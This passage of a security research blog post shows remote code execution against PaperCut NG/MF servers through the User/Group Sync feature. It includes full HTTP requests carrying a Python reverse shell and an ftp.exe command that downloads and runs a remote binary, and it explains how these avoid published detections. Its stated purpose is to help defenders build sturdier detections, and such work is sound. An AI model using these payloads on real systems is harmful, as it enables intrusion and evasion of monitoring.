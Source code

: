\\n\\n\`\`\`sh\\nPOST /app HTTP/1.1\\nHost: 10.9.49.222:9191\\nUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36 Edg/105.0.1343.33\\nContent-Length: 406\\nContent-Type: application/x-www-form-urlencoded\\nCookie: JSESSIONID=node01s8zloj765g3lirbwnppvw1qo279.node0\\nOrigin: http://10.9.49.222:9191/\\nReferer: http://10.9.49.222:9191/app\\nAccept-Encoding: gzip\\nservice=direct/1/Home/$Form&sp=S0&$Submit$0=Log+in&inputUsername=help&inputPassword=import socket,os,pty;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("10.9.49.194",1270));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")&Form0=$Hidden$0,$Hidden$1,inputUsername,inputPassword,$Submit$0,$PropertySelection&$Hidden$0=true&$Hidden$1=X&$PropertySelection=en\\n\`\`\`\\n\\nThe \`ps\` output is still suspicious, but at least the name of a famously malicious pentesting framework appear:\\n\`\`\`sh\\npapercut 17572 \\\_ /home/papercut/server/bin/linux-x64/./app-monitor /home/papercut/server/bin/linux-x64/./app-monitor.conf wrapper.syslog.ident=paperc\\npapercut 17574 \\\_ ../runtime/linux-x64/jre/bin/pc-app -Djava.io.tmpdir=tmp -Dserver.home=. -Xverify:none -XX:+UseParallelOldGC -server -Dpc-reserv\\npapercut 43227 \\\_ /usr/bin/python3\\npapercut 43232 \\\_ /bin/sh\\n\`\`\`\\n\\nOn the Windows side of things, we’ve chosen \`ftp.exe\` as our authentication program. \`ftp.exe\` will execute arbitrary commands if they are prepended with a bang (\`!\`). On the wire, that looks like this:\\n\\n\`\`\`sh\\nPOST /app HTTP/1.1\\nHost: 10.9.49.195:9191\\nUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36 Edg/105.0.1343.33\\nContent-Length: 360\\nContent-Type: application/x-www-form-urlencoded\\nCookie: JSESSIONID=node012xt0dzcjh0dy5wz7uvh9m26f23.node0\\nOrigin: http://10.9.49.195:9191/\\nReferer: http://10.9.49.195:9191/app\\nAccept-Encoding: gzip\\nForm0=$Hidden$0,$Hidden$1,inputUsername,inputPassword,$Submit$0,$PropertySelection&$PropertySelection=en&inputUsername=dir&service=direct/1/Home/$Form&sp=S0&$Hidden$0=true&$Hidden$1=X&$Submit$0=Log+in&inputPassword=!curl -s -A Mozilla/5.0 -o C:\\ProgramData\\AXtJxdUwlfJl.exe http://10.9.49.194:8080/AXtJxdUwlfJl %26 C:\\ProgramData\\AXtJxdUwlfJl.exe 10.9.49.194 1270\\n\`\`\`\\n\\nThe attack we’ve chosen is really quite basic. The \`inputPassword\` contains logic to download a binary to \`C:\\ProgramData\\\` and execute it. In our case, this binary is a custom reverse shell (written in Go). The result is that \`cmd.exe\` is never a direct child of \`pc-app.exe\`. The process tree is: \`pc-app.exe\` -> \`ftp.exe\` -> \`cmd.exe\` -> \`AXtJxdUwlfJI.exe\`.\\n\\n!\[Process creation events\](/blog/papercut-rce/ftpspawnscmd.png){:width="100%"}\\n\\nThe process tree, quite obviously, demonstrates poor tradecraft, but it’s sufficient to work around the published process-creation-based detections discussed earlier.\\n\\nImportantly, because this approach doesn’t use a scripting interface, this attack also doesn’t generate the expected log entries. An attack using the “User/Group” custom program will generate logs that look more like this:\\n\\n\`\`\`\\nUser/Group Sync settings changed by "admin"\\nUser "admin" logged into the administration interface.\\n\`\`\`\\n\\nThe full result is that we can establish reverse shells on both Windows and Linux targets without triggering any detections.\\n\\n::youtube-video\\n---\\nid: NTYQaZsFxiI\\ntitle: PaperCut NG and MF Remote Code Execution (CVE-2023-27350 + User/Group Sync) \\n---\\n::\\n\\n# Conclusion\\n\\nAn administrative user attacking PaperCut NG and MF can follow multiple paths to arbitrary code execution. Detections that focus on one particular code execution method, or that focus on a small subset of techniques used by one threat actor are doomed to be useless in the next round of attacks. Attackers learn from defenders' public detections, so it’s the defenders’ responsibility to produce robust detections that aren’t easily bypassed.\\n

#### [Source](https://vulncheck.com/blog/papercut-rce)

<br/>
---
